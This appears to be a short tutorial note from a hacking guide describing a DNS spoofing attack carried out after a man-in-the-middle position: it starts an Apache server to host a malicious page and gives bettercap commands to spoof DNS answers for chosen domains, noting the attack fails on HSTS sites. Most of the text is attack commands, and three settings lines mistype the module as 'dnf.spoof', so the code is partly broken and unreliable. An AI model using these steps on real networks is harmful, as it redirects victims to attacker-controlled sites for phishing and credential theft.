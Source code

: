 ---
---

After performing MITM attack all the targets packets are flowing through our system. We can redirect the user to an malicious website by spoofing the DNS request of the user

#### Start Apache Server

````bash
systemctl start apache2.service
````

/var/www/html : Location of Apache Files

#### DNS Spoofing

````bash
bettercap -iface <interface> -caplet <spoof-data-cap-file>
help dns.spoof

set dnf.spoof.all true
# Domains for which DNS should be spoofed
set dnf.spoof.domains <domains> 
dnf.spoof on
````

This attack does not work on HSTS websites

